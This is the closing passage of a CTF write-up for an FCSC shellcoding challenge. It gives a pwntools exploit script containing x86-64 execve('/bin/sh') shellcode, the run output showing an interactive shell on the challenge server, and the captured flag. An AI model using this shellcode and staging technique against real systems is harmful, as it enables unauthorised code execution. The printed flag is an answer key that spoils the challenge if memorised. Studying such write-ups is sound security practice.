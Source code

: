 ```py
# Exploit goes here

read_shellcode = b"FCSC_9Sfzbv=oED?^0JVy0a>zxDz=xP=" # will start with push rdx; pop rsi; syscall after the hash
io.send(read_shellcode)
sleep(speed)

shellcode = asm(
"""
mov rax, 0x0068732f6e69622f
push rax
mov rdi, rsp
xor esi, esi
xor edx, edx
mov eax, 0x3b
syscall
""")

sl(b"A"*4 + shellcode) # four "A" to overwrite the old shellcode

io.interactive()
input("end")
exit()
```

```
$ python exploit.py
[+] Opening connection to challenges.france-cybersecurity-challenge.fr on port 2107: Done
[*] Switching to interactive mode
Input:
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ cat flag.txt
FCSC{2bf3a8c59da61d5dd3ff402cb1ff11e0858246853297646bd1ad40bd944d8814}
```

---
# Conclusion
Thanks for reading this writeup, I hope you liked it.
Thanks you for this challenge, I never really did shellcoding challenges before that one. 